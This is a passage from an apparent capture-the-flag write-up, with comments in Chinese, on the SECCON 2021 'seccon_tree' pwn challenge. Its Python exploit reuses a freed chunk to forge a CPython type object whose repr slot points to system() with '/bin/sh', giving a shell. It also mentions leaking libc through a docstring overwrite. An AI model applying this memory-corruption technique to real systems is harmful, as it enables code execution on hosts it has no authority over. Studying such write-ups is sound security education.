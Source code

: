 ```python
    ptr_PyType_Type = 0x956900

# 文章當中說 payload 直接移植後不能跑，但加了 reference 就可以跑了，原因不明
qq = []
root.add_child_left(Tree(Pwn()))
qq.append(Tree(None))
root.add_child_left(qq[0])

dup = dbg.Bytearray(0x28) # take dup chunk with freed node
ob_base = p64(0xc) + p64(0x956900) + p64(0) # ob_refcnt + ob_type + ob_size
tp_name = p64(0)
tp_basicsize = p64(0x28)
tp_itemsize = p64(0)
tp_dealloc = p64(0)
tp_vectorcall_offset = p64(0)
tp_getattr = p64(0)
tp_setattr = p64(0)
tp_as_async = p64(0)
tp_repr = p64(plt_system)
tp_as_number, tp_as_sequence, tp_as_mapping, tp_hash, tp_call, tp_str, tp_getattro, tp_setattro, tp_as_buffer, tp_flags, tp_doc, tp_traverse = [p64(0)] * 12
fake_object = ob_base + tp_name + tp_basicsize + tp_itemsize + tp_dealloc + tp_vectorcall_offset + tp_getattr + tp_setattr + tp_as_async + tp_repr + tp_as_number + tp_as_sequence + tp_as_mapping + tp_hash + tp_call + tp_str + tp_getattro + tp_setattro + tp_as_buffer + tp_flags + tp_doc + tp_traverse

dup[0:8] = b'-bin/sh\x00' # reference 會++
dup[8:16] = p64(dbg.Id(fake_object) + 0x20)
# print list 時會呼叫 list 中 element 的 repr
dbg.Print(freed[0])
```

P.S. 由於 no-pie 的關係，不需要 leak libc 的 exploit 相較簡單，不過如果要 leak libc，也是能夠透過蓋寫 **docstring** 來將位址指向的值印出來



參考文章：

- https://org.anize.rs/SECCON-2021/pwn/seccon_tree
